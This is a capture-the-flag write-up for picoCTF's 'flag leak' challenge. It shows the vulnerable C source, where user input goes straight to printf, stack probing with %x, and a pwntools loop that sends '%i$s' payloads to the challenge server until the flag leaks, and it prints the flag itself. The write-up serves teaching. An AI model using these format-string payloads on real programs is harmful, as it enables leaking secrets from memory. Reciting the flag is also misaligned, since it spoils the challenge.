 # flag leak
#### Write-up author: [jon-brandy](https://github.com/jon-brandy)
## DESCRIPTION:
Story telling class 1/2 
I'm just copying and pasting with this [program](https://github.com/jon-brandy/CTF-WRITE-UP/blob/0782a0d972e244a18c82cbc1c62c2d363bef0c61/Asset/flag%20leak/vuln). what can go wrong? You can view source [here](https://github.com/jon-brandy/CTF-WRITE-UP/blob/0782a0d972e244a18c82cbc1c62c2d363bef0c61/Asset/flag%20leak/vuln.c). 
And connect with it using: `nc saturn.picoctf.net 63788`
## HINT:
1. Format Strings
## STEPS:
1. First, download both files given.
2. Next, let's check the `program`'s file type.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/189511862-1198436f-b5f9-4742-ac12-504e6a9905a4.png)

3. Notice, it's a 32 bit file and not stripped, so we can see the functions name
4. Now check the file protection.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/189511913-7206d52a-f6da-4424-afa0-76d84d31a802.png)

5. **No canary found** and **no pie**. So they will keep the same memory location.
6. Now let's run the program but make it executable first by run -> `chmod +x vuln`.

> RUN

![image](https://user-images.githubusercontent.com/70703371/189511953-8c084cba-c734-4129-940c-7e4a117602fa.png)

7. Let's create `flag.txt` file first, then run the program again.

![image](https://user-images.githubusercontent.com/70703371/189511980-4beb33e4-5c09-4b38-81d2-24d07714d14c.png)

![image](https://user-images.githubusercontent.com/70703371/189512037-78b9c5a6-0361-4196-9105-95ee2676d144.png)


8. Hmm let's analyze the source code.

> VULN.C

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```

9. Based from the hint, the vuln is right here.

![image](https://user-images.githubusercontent.com/70703371/189512352-4d32c0ce-1a45-4283-a707-b42eb5506808.png)

10. We can exploit that, for example i input `%x`.

> %x

![image](https://user-images.githubusercontent.com/70703371/189512371-6a223b61-821e-421e-a488-fbb88c209726.png)

11. Maybe with a delimiter, since the `scanf` function does not specify the `%[^\n]`.

> WITH DELIMITER

![image](https://user-images.githubusercontent.com/70703371/189512570-b094ecb1-f917-4284-843e-e941d52f4928.png)


12. But the memory addresses we recieve is the `%x.%`, which is our input.

> USING PWNTOOLS

```py
from pwn import *

value = p32(0x252e7825)
print(value)
```

> OUTPUT

![image](https://user-images.githubusercontent.com/70703371/189512608-4aad9a0d-a14d-461c-b4b9-a22047626236.png)

13. Also notice here, few memory addresses are repeated.
14. Since it's a stack, maybe we can climb up to the `flag` variable.
15. So let's input our own local flag.

> I INPUT bctf{FLAG} at flag.txt

16. Run the program again, but this time input the `%x` with delimiter as many as you want until you see a different address pattern.

> RUN

![image](https://user-images.githubusercontent.com/70703371/189512833-307357b3-eed3-40e5-9fa6-aadcad688aba.png)

17. We got different address pattern now.

![image](https://user-images.githubusercontent.com/70703371/189512842-bc917436-4fb8-4160-95c5-85c2efbbdf33.png)

18. Let's copy the first memory address of the newly created pattern and convert it to strings using [this](https://www.rapidtables.com/convert/number/hex-to-decimal.html) online tools

> USING ONLINE TOOLS

![image](https://user-images.githubusercontent.com/70703371/189513131-a30687d8-a034-4745-a1fd-ce26ff10f7d6.png)

19. It must be our local flag then.
20. The conclusion is, this is a `FORMAT STRINGS ATTACK`.
21. For this solution, i made a python script to do the format strings attack.

```py
from pwn import *
import os

os.system('clear')

for i in range(256): # 128 + 64 + 64
    sh = remote('saturn.picoctf.net', 63788)
    sh.recvuntil(b'>')
    sh.sendline('%' + str(i) + '$s')
    print(sh.recvuntil(b'-')) 
    print(i) # print the iteration
    print(sh.recv()) # print the value
    
    sh.close # close the session if i == 255
```

22. At the 24th iteration we got the flag!

![image](https://user-images.githubusercontent.com/70703371/189513593-259e30b4-05f4-4925-8ab4-994d8f65f62c.png)


## FLAG

```
picoCTF{L34k1ng_Fl4g_0ff_St4ck_c2e94e3d}
```



## LEARNING REFERENCES:

```
https://owasp.org/www-community/attacks/Format_string_attack
```




